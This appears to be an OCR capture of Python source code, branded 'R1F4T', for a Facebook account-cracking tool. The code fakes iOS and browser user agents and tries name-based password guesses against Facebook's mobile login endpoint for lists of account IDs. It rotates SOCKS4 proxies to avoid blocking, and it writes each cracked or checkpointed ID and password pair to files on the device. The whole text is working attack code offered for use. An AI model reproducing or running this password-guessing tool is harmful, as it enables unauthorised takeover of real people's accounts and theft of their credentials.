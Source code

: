     ipsw = '19'+random.choice(abv)+str(random.randint(11,99))
application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(1,19))+'.'+str(random.randint(111,555))
application_version_code=str(random.randint(000000000,999999999))
ua_ios = 'Mozilla/5.0 (iPhone, CPU iPhone '+version+'_'+osv+' like Mac OS '+version+') AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/'+ipsw+' [FBAN/FBIOS;FBAV/'+application_version+';FBBV/'+application_version_code+';FBDV/'+version+'.'+osv+';FBMD/iPhone;FBSN/iOS;FBSV/'+version+'.'+osv+';FBSS/2;FBCR/Reliance JIO;FBID/phone;FBLC/en_US;FBOP/5;FBIA/FBIOS;]'
def ffb(ids,names,passlist):
	global loop,oks,cps
	sys.stdout.write(f'\r\x1b[1;97m[\033[1;97mR1F4T\033[1;97m] %s|\x1b[1;92mOK:-%s \x1b[1;97m\r'%(loop,len(oks))),
    
	session = requests.Session()
	try:
		first = names.split(' ')[0]
		try:
			last = names.split(' ')[1]
		except:
			last = 'Khan'
		ps = first.lower()
		ps2 = last.lower()
		for fikr in passlist:
			pas = fikr.replace('First',first).replace('Last',last).replace('first',ps).replace('last',ps2)
			ua = random.choice(ugen)
			ua1 = random.choice(ugen2)
			nip=random.choice(prox)
			proxs= {'http': 'socks4://'+nip}
			
			head = {'Host': 'p.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="24", "Chromium";v="107", "Google Chrome";v="107"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Andriod"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?0', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-PK,en-US,en;q=0.9,en;q=0.8,en;q=0.7'}
			getlog = session.get(f'https://p.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
			idpass ={"lsd":re.search('name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://p.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
			complete = session.post('https://p.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head,proxies=proxs)
			AXI=session.cookies.get_dict().keys()
			if "c_user" in AXI:
				coki=session.cookies.get_dict()
				kuki = (";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
				print('\033[1;92m[R1F4T-OK] '+ids+' | '+pas+'\033[1;32m')
				open('/sdcard/R1F4T-OK.txt', 'a').write(ids+'|'+pas+'\n')
				oks.append(ids)
				break
			elif 'checkpoint' in AXI:
				if 'y' in pcp:
					print('\33[1;91m[R1F4T-CP] '+ids+' | '+pas+'\33[0;97m')
					open('/sdcard/R1F4T-CP.txt', 'a').write(ids+'|'+pas+'\n')
					cps.append(ids)
					break
				else:
					break
			else:
				continue
	except requests.exceptions.ConnectionError:
		time.sleep(20)